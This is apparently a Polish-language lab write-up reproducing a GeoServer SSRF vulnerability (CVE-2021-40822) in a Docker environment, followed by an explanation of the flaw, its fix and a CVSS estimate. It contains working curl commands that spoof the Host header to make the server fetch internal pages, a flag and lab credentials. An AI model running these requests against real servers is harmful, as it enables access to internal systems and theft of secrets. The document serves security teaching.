


# Zadanie 2.3 — GeoServer SSRF przez nagłówek Host (CVE-2021-40822, CWE-918)

> **Cel:** wykorzystać SSRF w serwlecie `TestWfsPost` GeoServera 2.19.0, który
> waliduje docelowy URL względem nagłówka **Host** przychodzącego żądania.
> Fałszując Host, zamieniamy GeoServer w **open proxy** i sięgamy do ukrytego
> hosta wewnętrznego (`10.133.7.100`), niedostępnego z zewnątrz.

| | |
|---|---|
| **Środowisko** | `docker compose -f docker-compose-cve-2021-40822.yml up -d` |
| **GeoServer** | `10.133.7.10:8080` (host `127.0.0.1:8080`), wersja 2.19.0 |
| **Cel wewnętrzny** | `internal-api` = `10.133.7.100:8888` (brak portu na hoście) |
| **Podatność** | CVE-2021-40822 / CWE-918 (SSRF), serwlet `/geoserver/TestWfsPost` |
| **Flaga** | `FLAG{geoserver_ssrf_internal_access_achieved}` |

## c) Baseline — bezpośrednio do OWS
```bash
curl -s "http://127.0.0.1:8080/geoserver/ows?service=wfs&version=1.1.1&request=GetCapabilities"
```
Zwraca dokument `WFS_Capabilities` (normalne działanie).

## d) To samo PRZEZ serwlet (legalnie)
```bash
curl -s "http://127.0.0.1:8080/geoserver/TestWfsPost" \
  --data-urlencode "url=http://127.0.0.1:8080/geoserver/ows?service=wfs&version=1.1.1&request=GetCapabilities" \
  -d "body=" -d "username=" -d "password="
```
Ten sam XML — serwlet proxuje żądanie po stronie serwera. Host (`127.0.0.1:8080`)
zgadza się z hostem w `url` → przechodzi walidację.

## e) Cel wewnętrzny BEZ obejścia → odrzucenie
```bash
curl -s "http://127.0.0.1:8080/geoserver/TestWfsPost" \
  --data-urlencode "url=http://10.133.7.100:8888/" -d "body=" -d "username=" -d "password="
```
```
java.lang.IllegalStateException: Invalid url requested, the demo requests
should be hitting: http://127.0.0.1:8080/geoserver
```
Serwlet porównuje host z `url` z nagłówkiem Host (`127.0.0.1:8080`) → brak zgody → odrzuca.

## f/g) OBEJŚCIE — sfałszowany nagłówek Host → open proxy
```bash
curl -s "http://127.0.0.1:8080/geoserver/TestWfsPost" \
  -H "Host: 10.133.7.100:8888" \
  --data-urlencode "url=http://10.133.7.100:8888/" -d "body=" -d "username=" -d "password="
```
Ustawiając `Host: 10.133.7.100:8888` (zgodny z `url`), walidacja przechodzi, a
GeoServer pobiera stronę **z wnętrza sieci** i zwraca ją nam:
```html
<h1>Internal Corporate Portal</h1>
<li><a href="/credentials.json">Service Credentials</a></li>
<li><a href="/flag.txt">Admin Token</a></li>
<li><a href="/employees.csv">Employee Directory</a></li>
```





## h/i/j) Żniwo wrażliwych danych przez SSRF

```bash
curl -s "http://127.0.0.1:8080/geoserver/TestWfsPost" -H "Host: 10.133.7.100:8888" \
  --data-urlencode "url=http://10.133.7.100:8888/flag.txt" -d "body=" -d "username=" -d "password="
```

| Plik (z internal-api) | Zawartość |
|-----------------------|-----------|
| `flag.txt` | `FLAG{geoserver_ssrf_internal_access_achieved}` |
| `credentials.json` | `db_password: SuperSecret!2026`, `api_key: sk-live-9f8a7b6c5d4e3f2a1b0c`, db.corp.internal / billing_svc |
| `employees.csv` | dane pracowników (imię, e-mail, rola, dział) — PII |

**Impact:** SSRF to nie tylko potwierdzenie „host żyje" — pozwala **systematycznie
pozyskać konfigurację, poświadczenia i dane** z usług, które nigdy nie miały być
osiągalne z zewnątrz.

---

## Na czym polega błąd
`TestWfsPost` waliduje docelowy URL względem **nagłówka Host żądania**, zamiast
względem stałej, serwerowej konfiguracji. Host jest kontrolowany przez klienta
(`curl -H "Host: ..."`), więc walidację trywialnie się obchodzi → serwer staje
się open proxy do dowolnego celu osiągalnego z jego interfejsu sieciowego
(10.x, 172.16.x, 192.168.x, 127.0.0.1, metadata `169.254.169.254`).

## k) Jak naprawiono
GeoServer 2.19.3 łata problem, a 2.24.4 / 2.25.2 **usuwają serwlet** `TestWfsPost`
całkowicie. Ogólnie: walidować cel względem stałej allowlisty po stronie serwera,
nie ufać nagłówkowi Host.

## l) CVSS (propozycja)
Nieuwierzytelniony SSRF, dostęp do zasobów wewnętrznych/metadanych:
`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:L/A:L` ≈ **8–9 (High)**
(oryginalny NVD dla CVE-2021-40822 ≈ 7.5–8.6; do weryfikacji na kalkulatorze).

## m) Zatrzymanie środowiska
```bash
docker compose -f docker-compose-cve-2021-40822.yml down -v
```
